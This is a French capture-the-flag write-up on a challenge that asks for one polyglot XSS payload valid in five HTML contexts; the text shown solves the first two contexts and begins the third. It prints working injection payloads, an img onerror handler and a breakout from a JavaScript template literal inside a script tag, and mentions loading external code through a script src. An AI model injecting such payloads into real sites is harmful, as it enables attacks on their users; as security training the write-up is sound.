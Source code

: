 ```html
<marquee direction="right"><b>...XSS</b><img id="a" src="https://media4.giphy.com/media/QU86X0DlOCBCL5feZZ/giphy.gif"><img id="a" src="https://media2.giphy.com/media/kyuWvPj8enRVAeUvfO/giphy.gif"></marquee><style>#a{width: 64px;height:64px;}</style>
</body>
</html>
```


## Première approche:

Le but de ce challenge est clair: trouver un payload qui valide 5 XSS dans 5 contextes différents.  
Commencons pas comprendre le code.

On nous propose un champ pour entrer notre payload et celui-ci est directement remplacé dans le *code HTML* à la place de **$xss**.

J'ai déja eu affaire à ce type de challenge par le passé, nottament lors du forum leHack à Paris en juin dernier. *(BitK on te voit ;))*  

Le plus dur dans ce type de challenge n'est pas de trouver les payloads valides pour chaque XSS mais bien les combiner entre eux pour former un unique payload polyglotte.

## Partie 1) Résolution des XSS séparement:

Dans un premier temps, on s'intérèsse séparement aux XSS pour bien comprendre leur méthode de fonctionnement.

### XXS N°1: *XSS classique par l'utilisation de balises HTML*
Ici rien de plus simple, on peut directement injecter un **img**:
```html
(1) $xss
```
Payload: ``<img/src/onerror=console.log(1)>``

### XXS N°2: *XSS en restant à l'intérieur des balises \<script> d'origine*
L'idée ici est de sortir du contexte du dictionnaire tout en restant dans le TAG **script**.
```html
(2) <script>var v = {'xss':`$xss`};</script>
```
devient:
```html
(2) <script>var v = {'xss':``}; console.log(2); //`};</script>
```
avec le payload: `` `}; console.log(2); //``

### XXS N°3: *XSS à l'intérieur de la valeur 'src'*
Voici le code html:
```html
(3) <script src="$xss"></script>
```
Deux solutions sont possibles pour le moment:
  - utiliser **$xss** pour importer du code js depuis une page externe
  - utiliser **data:**
